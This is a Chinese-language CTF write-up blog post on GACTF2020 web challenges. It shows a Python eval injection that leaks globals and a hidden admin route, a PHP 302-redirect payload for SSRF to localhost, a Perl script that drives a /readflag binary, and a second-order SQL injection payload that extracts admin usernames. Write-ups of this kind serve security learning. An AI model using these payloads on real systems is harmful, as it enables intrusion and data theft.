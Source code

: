 ```yaml
---
title: GACTF2020
author: ch3n9w
typora-root-url: ../
date: 2020-08-29 15:49:36
categories: CTF
---
```






## simpleflask



和以往的flask不一样的地方在于, 这里是经过更新后的flask, 计算pin码的方式已经和以前不一样了, 参考 https://www.chainnews.com/articles/898433701852.htm, 不过问题不大,就把machine-id拼接在docker那一串东西的前面就可以了, 需要注意的是每十分钟重启时候的机器mac地址是会变化的.

<!--more-->

![image-20211114141224625](/images/GACTF2020/image-20211114141224625.png)

## ezflask



点击看到代码

```python
# -*- coding: utf-8 -*- 
from flask import Flask, request 
import requests 
from waf import * 
import time 

app = Flask(__name__) 
@app.route('/ctfhint') 
def ctf(): 
    hint =xxxx # hints 
    trick = xxxx # trick 
    return trick 
    
@app.route('/') 
def index(): 
    # app.txt 
    
@app.route('/eval', methods=["POST"]) 
def my_eval(): 
    # post eval 
    
@app.route(xxxxxx, methods=["POST"]) # Secret 
def admin(): 
    # admin requests 
    # 
if __name__ == '__main__': 
    app.run(host='0.0.0.0',port=8080)
```

发现``" ' [ ( ``都被过滤了, 简直离谱

```
eval=ctf.__globals__
```

来查看ctf函数所处在的命名空间下所能接触到的变量和函数

```
{'my_eval': <function my_eval at 0x7fb525c35dd0>, 'app': <Flask 'app_1'>, 'waf_eval': <function waf_eval at 0x7fb525c35c50>, 'admin': <function admin at 0x7fb525b7f650>, 'index': <function index at 0x7fb525c35d50>, 'waf_ip': <function waf_ip at 0x7fb525c35b50>, '__builtins__': <module '__builtin__' (built-in)>, 'admin_route': '/h4rdt0f1nd_9792uagcaca00qjaf', '__file__': 'app_1.py', 'request': <Request 'http://124.70.206.91:10003/eval' [POST]>, '__package__': None, 'Flask': <class 'flask.app.Flask'>, 'ctf': <function ctf at 0x7fb525c35cd0>, 'waf_path': <function waf_path at 0x7fb525c35bd0>, 'time': <module 'time' from '/usr/local/lib/python2.7/lib-dynload/time.so'>, '__name__': '__main__', 'requests': <module 'requests' from '/usr/local/lib/python2.7/site-packages/requests/__init__.pyc'>, '__doc__': None}
```

发现了admin_route, 然后那里是可以发起一个对外请求的, 经过测试发现``127.0.0.1``和``0.0.0.0``及其变形都会触发警告并退出, 盲猜这里考察的是302重定向, 在服务端那里写下

```php
<?php
    header("Location: http://127.0.0.1:8080/");
?>
```

ssrf成功, 但是下一步干嘛呢? 

``__code__``, 函数的代码块

``__code__.co_consts`` 代码块中的所有常量的元组, 参考https://docs.python.org/3/library/inspect.html

```
eval=ctf.__code__.co_consts
```

```

(None, 'the admin route :h4rdt0f1nd_9792uagcaca00qjaf<!-- port : 5000 -->', 'too young too simple')
```

然后通过302重定向访问127.0.0.1:5000, 是一个常规的ssti,再次重定向

![image-20211114141232648](/images/GACTF2020/image-20211114141232648.png)



![image-20211114141239286](/images/GACTF2020/image-20211114141239286.png)



## XWIKI

找到了CVE, 然后根据例子反弹shell后发现有一个二进制文件, 会给你很多选择题比较大小的, 到这里就做不出来了, 不过看到其他选手的脚本, 这里记录一下.

```perl

use strict;
use IPC::Open3;

my $pid = open3( \*CHLD_IN, \*CHLD_OUT, \*CHLD_ERR, '/readflag' )
  or die "open3() failed $!";

my $r;
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
$r = eval "$r";
print "$r\n";
print CHLD_IN "$r\n";
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
```



## carefuleyes

在改名的地方进行二次注入

```
sd' or if(substr((select group_concat(username) from user where privilege='admin'),1,1)='X',exp(5000),1)#
```

得到用户名和密码之后进行序列化登陆就可以了

![image-20211114141249521](/images/GACTF2020/image-20211114141249521.png)
